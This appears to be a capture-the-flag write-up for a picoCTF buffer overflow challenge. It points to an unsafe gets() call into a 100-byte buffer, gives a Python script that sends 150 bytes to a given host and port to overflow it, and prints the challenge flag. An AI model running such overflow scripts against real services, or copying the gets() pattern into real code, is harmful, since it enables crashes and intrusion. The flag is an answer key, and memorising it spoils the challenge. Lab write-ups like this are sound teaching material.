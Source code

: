 # Solution

1. Looked through the source code, identified that a buffer overflow could occur by sending > 100 bytes of data
2. Lines 39 - 41 in the source looked interesting

```
char buf1[100];
  gets(buf1); 
  vuln(buf1);
```
3. I created a python script to connect to the application, and send our buffer overflow

File located [exploit.py](./exploit.py)

```
#!/usr/bin/env python3
# Author: B. Burn
# 05/19/22

import socket
import click
import argparse 

click.clear()

parser = argparse.ArgumentParser()
parser.add_argument("host", type=str, help="The hostname of IP address to connect to")
parser.add_argument("port", type=int, help="The port for the service to connect to")

args = parser.parse_args()

payload = b"".join (
    [
        b"A" * 150
    ]
)

payload += b"\n"

with socket.socket() as connection:
    connection.connect((args.host, args.port))
    print(connection.recv(4096).decode('utf-8'))
    connection.send(payload)
    print(connection.recv(4096).decode('utf-8'))
```

## Flag
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
```